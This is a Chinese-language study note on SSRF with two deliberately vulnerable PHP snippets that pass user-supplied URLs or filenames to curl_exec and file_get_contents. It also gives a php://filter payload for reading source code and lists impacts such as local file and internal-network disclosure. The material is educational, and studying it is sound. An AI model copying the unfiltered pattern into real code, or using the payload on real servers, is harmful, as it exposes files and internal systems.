- 由于访问者是服务器，访问是从服务器的视角进行的，所以可以访问内网或本服务器上的内容

```php
if(isset($_GET['url']) && $_GET['url'] != null){

    //接收前端URL没问题,但是要做好过滤,如果不做过滤,就会导致SSRF
    $URL = $_GET['url'];
    $CH = curl_init($URL);
    curl_setopt($CH, CURLOPT_HEADER, FALSE);
    curl_setopt($CH, CURLOPT_SSL_VERIFYPEER, FALSE);
    $RES = curl_exec($CH);
    curl_close($CH) ;
//ssrf的问是:前端传进来的url被后台使用curl_exec()进行了请求,然后将请求的结果又返回给了前端。
//除了http/https外,curl还支持一些其他的协议curl --version 可以查看其支持的协议,telnet
//curl支持很多协议，有FTP, FTPS, HTTP, HTTPS, GOPHER, TELNET, DICT, FILE以及LDAP
    echo $RES;

}
```


      
 -  file:// 部分指定协议，表示这是一个本地文件访问请求。
- 第三个 / 之后紧跟的是文件的绝对路径。


## SSRF（file_get_content）
- file_get_contents() 把整个文件读入一个字符串。

```php
//读取PHP文件的源码:php://filter/read=convert.base64-encode/resource=ssrf.php
//内网请求:http://x.x.x.x/xx.index
if(isset($_GET['file']) && $_GET['file'] !=null){
    $filename = $_GET['file'];
    $str = file_get_contents($filename);
    echo $str;
}

```


- 泄露本地文件内容

- 泄露 PHP 源码

- 还可以访问内网其他端口上的文件内容

